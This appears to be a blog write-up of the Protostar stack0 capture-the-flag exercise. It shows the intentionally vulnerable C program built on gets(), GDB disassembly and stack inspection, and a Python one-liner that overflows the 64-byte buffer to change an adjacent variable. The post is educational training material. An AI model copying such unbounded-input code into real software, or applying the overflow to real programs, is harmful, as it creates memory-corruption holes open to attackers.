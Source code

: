 ```yaml
---
layout: post
title: Protostar Writeup - stack0
updated: 2018-07-25 13:25
tags: [ctf, binary exploit, tech, protostar]
---
```


## Protostar - stack0

This post is a writeup for the Protostack - stack0 challenge. Before continuing further, I strongly advice that you first try them out yourself.
Here's the [link](https://exploit-exercises.com/protostar/stack0/). The first challenge is simple for a person doing CTF's for a while. This challenge is actually meant for beginners inorder to introduce them to CTF's.
I assume that if you got stuck here, you atleast have a VM running the Protostart iso, if not that's a good first challenge if you have never used VM's.

### stack0

If you read the description of the challenge you will see that all we have to do is modify a variable. Here's the attached code which is also present on the site.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
{% endhighlight %}

So let's analyze this code. We have some a variable called modified which we need to modify(ironic), note that modified is declared as volatile, this tells the compiler to not apply any optimizations to it. Then we have a buffer of 64 bytes.
Then we have modified set to 0 and we take some input. Now it's easy to see that there's no way to modify the modified variable(atleast not directly).
Now what options do we have? The only attack surface I could think of here is the `gets()` function. Looking at the man pages of it I came across something interesting in the bugs section.

> Never use gets()...impossible to tell...how many characters it will read...has been used to break computer security.

hmmm...interesting. Exploiting this has something to do with how memory is layed out. To keep things simple, when we declare a variable, it is reserved or stored on the stack. So if you understood what that means, buffer as well as modified should be on the stack.
And from the man pages we know that gets() has no limit on reading. So what happens if we read beyond 64 bytes? Let's try writing beyond 64 bytes. Let's fire up the GDB and take a look at what we have.

{% highlight shell %}
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
End of assembler dump.
{% endhighlight %}

Nothing interesting here. We know that "[esp+0x5c]" is the modified variable just by looking at the assembly, since a 0 is moved into that location.
Let's set a break point just after the "gets()" call, run the program and take a look at what happens.

{% highlight shell %}
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:	0xbffff75c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff750:	0xb7fd7ff4	0xb7ec6165	0xbffff768	0x41414141
0xbffff760:	0x41414141	0x41414141	0xbf004141	0x080482e8
0xbffff770:	0xb7ff1040	0x08049620	0xbffff7a8	0x08048469
0xbffff780:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff7a8
0xbffff790:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
{% endhighlight %}

Let me explain what I did. I set a break point just after the gets() call because I want to get an idea of where on the stack the data is stored. "A" in hex is 0x41.
We print the first 24 (w)ords in he(x) format. You can see where our 'A's got stored. And if you take a closer look, towards the end you find the value of modified which is 0.
So what we need to do is overflow the input into the modified variable and we're done. Just by observation of the stack, we see that we require a minimum of 4 * 4 * 4 + 1 bytes of data, which is co-incidently one more byte than the buffer size. More would work too, but this is the minimum.
Let's write exploit this with a little help from python and pipes.

{% highlight shell %}
$ python -c "print 'A' * 64 + 'B'" | ./stack0
you have changed the 'modified' variable
{% endhighlight %}

And there we have it, we have successfully modified the value of a variable, using a buffer overflow. Simple yet fundamental to understanding how not to write code.
I'll be posting more solutions in my free time. If you got this on your first try, way to go! If not, then remember 'Every expert was once a beginner'. Another little thing I would like to stress upon, is that you should keep questioning why it works the way it does. If you aren't, you aren't learning anything at all.

### Sites
[Protostar](https://exploit-exercises.com/protostar/)
[Phrack Magzine](http://phrack.org/issues/49/14.html)
[LiveOverflow](https://liveoverflow.com/)
